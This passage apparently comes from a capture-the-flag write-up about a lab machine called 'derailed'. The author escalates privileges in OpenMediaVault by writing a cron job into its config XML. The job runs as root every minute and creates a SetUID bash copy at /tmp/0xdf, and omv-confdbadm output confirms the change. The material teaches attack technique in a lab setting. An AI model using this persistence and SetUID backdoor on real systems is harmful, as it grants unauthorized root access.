 

I'll copy it to make an uncommented version, and fill it in, with the
following discoveries via trial and error:

-   A `uuid` is required and it has to be a valid UUID, but any UUID
    seems to work. I'll generate one
    [here](https://www.uuidgenerator.net/version4).
-   I'll use `exactly` as the `execution` as it was better than any of
    the others.
-   I'll use `userdefined` as the type as it's better than the others.
-   I'll set `*` for all the items, and then leave the `everyminute`,
    `everyhour`, and `everydayofmonth` fields as `0`. I tried it as `1`
    and it didn't seem to work.
-   I'll set the command to create a SetUID `bash` binary.



    <job>
        <uuid>b8068c15-0d5e-4d38-a7d0-6885a31c8a53</uuid>
        <enable>1</enable>
        <execution>exactly</execution>
        <sendemail>0</sendemail>
        <type>userdefined</type>
        <comment>xxx</comment>
        <minute>*</minute>
        <everynminute>0</everynminute>
        <hour>*</hour>
        <everynhour>0</everynhour>
        <dayofmonth>*</dayofmonth>
        <everyndayofmonth>0</everyndayofmonth>
        <month>*</month>
        <dayofweek>*</dayofweek>
        <username>root</username>
        <command>cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf</command>
    </job>



After saving, I'll read back the data using `omv-confdbadm`:



    openmediavault-webgui@derailed:/etc/openmediavault$ /sbin/omv-confdbadm read --prettify conf.system.cron.job
    [
        {
            "command": "cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf",
            "comment": "xxx",
            "dayofmonth": "*",
            "dayofweek": "*",
            "enable": true,
            "everyndayofmonth": false,
            "everynhour": false,
            "everynminute": false,
            "execution": "exactly",
            "hour": "*",
            "minute": "*",
            "month": "*",
            "sendemail": false,
            "type": "userdefined",
            "username": "root",
            "uuid": "b8068c15-0d5e-4d38-a7d0-6885a31c8a53"
        }
    ]
